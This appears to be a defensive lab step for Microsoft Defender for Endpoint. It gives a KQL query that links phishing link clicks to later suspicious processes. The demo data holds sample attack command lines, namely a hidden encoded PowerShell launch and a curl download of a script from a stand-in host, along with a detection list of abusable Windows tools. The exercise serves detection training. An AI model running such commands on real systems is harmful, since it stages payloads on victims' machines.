

## Task 03: Review execution timelines in Defender for Endpoint

1. Copy the following KQL into the query window, then select **Run query**.

    <details markdown='block'>
    <summary>
    Expand here to copy KQL-3.txt
    </summary>

    ```KQL-3.txt-wrap
    // ---- USE REAL MDO CLICKS + DEMO PROCESSES (fixed) ----
    let lookback    = 7d;
    let windowAfter = 2h;
    let suspicious  = dynamic(["powershell.exe","wscript.exe","mshta.exe","rundll32.exe","regsvr32.exe","cmd.exe","curl.exe","wget.exe","bitsadmin.exe"]);
    let demoBase    = ago(3d);

    // Real clicks (if present)
    let RealClicks =
        UrlClickEvents
        | where Timestamp > ago(lookback)
        | where ActionType in ("ClickAllowed","ClickBlocked") or toint(IsClickedThrough) == 1
        | project AccountUpn, ClickTime=Timestamp, Url, ReportId, NetworkMessageId;

    // --- FIXED: demo clicks use offset timespan, then extend to datetime ---
    let DemoClicksSeed =
    datatable (offset:timespan, AccountUpn:string, Url:string, ReportId:long, NetworkMessageId:string)
    [
      5m,  "alex.johnson@contoso.com", "http://contoso.example/billing", 777001, "netmsg-001",
      10m, "alex.johnson@contoso.com", "http://contoso.example/login",   777002, "netmsg-002",
      12m, "bruce.wayne@contoso.com",  "http://contoso.example/script",  777003, "netmsg-003"
    ];
    let DemoClicks =
        DemoClicksSeed
        | extend ClickTime = demoBase + offset
        | project AccountUpn, ClickTime, Url, ReportId, NetworkMessageId;

    // Prefer real clicks; include demo to guarantee results
    let Clicks = union isfuzzy=true RealClicks, DemoClicks;

    // --- FIXED: demo processes use offset timespan, then extend to datetime ---
    let DemoProcsSeed =
    datatable (offset:timespan, DeviceName:string, FileName:string, ProcessCommandLine:string,
               InitiatingProcessFileName:string, InitiatingProcessCommandLine:string,
               ActorUpn:string, ReportId:long)
    [
      25m, "SEA-WKS-001", "powershell.exe", "powershell -nop -w hidden -enc AQA...",
           "outlook.exe", "outlook.exe /embedding", "alex.johnson@contoso.com", 870001,

      30m, "SEA-WKS-001", "cmd.exe", "cmd /c curl http://contoso.example/a.ps1 -o a.ps1",
           "powershell.exe", "powershell -nop -w hidden", "alex.johnson@contoso.com", 870002
    ];
    let Procs =
        DemoProcsSeed
        | extend Timestamp = demoBase + offset
        | where FileName in~ (suspicious)
        | project Timestamp, DeviceName, FileName, ProcessCommandLine,
                  InitiatingProcessFileName, InitiatingProcessCommandLine,
                  ActorUpn, ReportId;

    // Correlate: suspicious process within 2h after a user's click
    Procs
    | join kind=inner (Clicks | project AccountUpn, ClickTime) on $left.ActorUpn == $right.AccountUpn
    | where Timestamp between (ClickTime .. ClickTime + windowAfter)
    | project Timestamp, DeviceName, FileName, ProcessCommandLine,
              InitiatingProcessFileName, InitiatingProcessCommandLine,
              AccountUpn=ActorUpn, ReportId
    | order by Timestamp asc

    ```
    </details>

    

    {: .note }
    > Common signals include:
    > - `outlook.exe` → `powershell.exe`
    > - `cmd /c curl ...` or `rundll32`, `mshta`  
    > These strongly suggest post-phish staging or execution.

    {: .highlight }
    > If multiple devices tie to the same user within the timeline, consider possible **lateral movement**.

